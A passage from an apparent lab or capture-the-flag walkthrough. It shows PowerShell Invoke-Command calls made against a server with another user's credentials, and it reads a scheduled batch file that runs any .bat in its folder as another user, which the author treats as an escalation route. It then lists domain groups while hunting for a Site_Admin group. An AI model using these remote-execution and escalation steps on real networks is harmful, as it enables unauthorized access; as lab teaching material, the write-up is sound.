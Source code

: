 ## Shell as Site Admin

### Enumeration

With different credentials, I’ll try `C:\program files\keepmeon` again, and awallace can access it:

```

PS C:\Utils> Invoke-Command -ScriptBlock { ls '\program files\keepmeon' } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred

    Directory: C:\program files\keepmeon

Mode                 LastWriteTime         Length Name                               PSComputerName                    
----                 -------------         ------ ----                               --------------                    
-a----        21/12/2021     14:57            128 keepmeon.bat                       ATSSERVER

```

It’s a single `.bat` file, which awallace can read:

```

REM This is run every 5 minutes. For Lois use ONLY
@echo off
 for /R %%x in (*.bat) do (
 if not "%%x" == "%~0" call "%%x"
)
PS C:\

```

It’s simply looping over any `.bat` files in this directory, and if they aren’t this one, running them. The comment says it runs every five minutes, and it’s for Lois.

### Site Admin

#### Enumeration

In the Word doc, there was a comment about how Lois could add people to become “site admin”. Looking at the groups for this domain, there’s one called `Site_Admin`:

```

PS C:\Utils> Invoke-Command -ScriptBlock { net group /domain  } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred

Group Accounts for \\
-------------------------------------------------------------------------------
*Cloneable Domain Controllers
*DnsUpdateProxy
*Domain Admins
*Domain Computers
*Domain Controllers
*Domain Guests
*Domain Users
*Enterprise Admins
*Enterprise Key Admins
*Enterprise Read-only Domain Controllers
*Group Policy Creator Owners
*Key Admins
*Managers
*Protected Users
*Read-only Domain Controllers
```